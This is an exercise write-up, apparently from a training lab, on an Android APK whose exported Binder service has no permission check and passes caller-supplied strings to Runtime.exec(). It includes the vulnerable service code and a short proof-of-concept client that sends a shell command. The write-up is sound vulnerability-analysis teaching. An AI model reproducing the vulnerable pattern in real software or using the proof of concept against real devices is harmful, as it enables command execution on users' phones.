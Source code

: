 # Exercise 4 Write-up : Arbitrary Command Execution via Binder 

This exercise focuses on analyzing an Android APK that uses **Binder**, Android’s Inter-Process Communication (IPC) mechanism. Our goal is to identify a vulnerability that could allow **arbitrary command execution** via a misconfigured **Binder service**.

Our goal is to **Discover a code path in HonSystemService.apk that allows an unprivileged application to execute arbitrary system commands via Binder IPC.**

## Android Binder IPC
- Binder allows apps and services to communicate securely.
- System services often expose Binder interfaces via `Service` components.
- If a service is `exported` and lacks permission checks, any app can interact with it.
- A vulnerability exists when a Binder service accepts input from any app and executes system commands (e.g., `Runtime.getRuntime().exec()`).

### 1. Open APK in JADX
We use JADX to decompile and analyze the source code.

### 2. Inspect AndroidManifest.xml
We locate AndroidManifest.xml in JADX and identify the key component:

```xml
<service
    android:name=".HonSystemService"
    android:exported="true" />
```

**Issue** : The service is exported without a permission. Any app can bind to it.

### 3. Find Service Implementation

```java
@Override
public IBinder onBind(Intent intent) {
    return new HonSystemBinder();
}
```

This confirms the use of a custom Binder class.

### 4. Analyze Binder Class: HonSystemBinder :

In HonSystemBinder, we find the key method:

```java
@Override
public boolean onTransact(int code, Parcel data, Parcel reply, int flags) throws RemoteException {
    switch (code) {
        case 1:
            String command = data.readString();
            Runtime.getRuntime().exec(command);
            reply.writeString("Executed: " + command);
            return true;
        default:
            return super.onTransact(code, data, reply, flags);
    }
}
```

Critical Vulnerability Identified:

- No permission or identity checks.
- Untrusted input directly passed to Runtime.exec().
-Any app can bind to the service and execute system commands.

A malicious app can use AIDL or Parcel to send an arbitrary shell command:

```java
Parcel data = Parcel.obtain();
Parcel reply = Parcel.obtain();
IBinder binder = serviceConnection.getBinder();
data.writeInterfaceToken("com.hon.binderinterface");
data.writeString("id");  // or "whoami", "ls", etc.
binder.transact(1, data, reply, 0);

String result = reply.readString();
```

This could lead to remote code execution depending on the privileges of the system service.

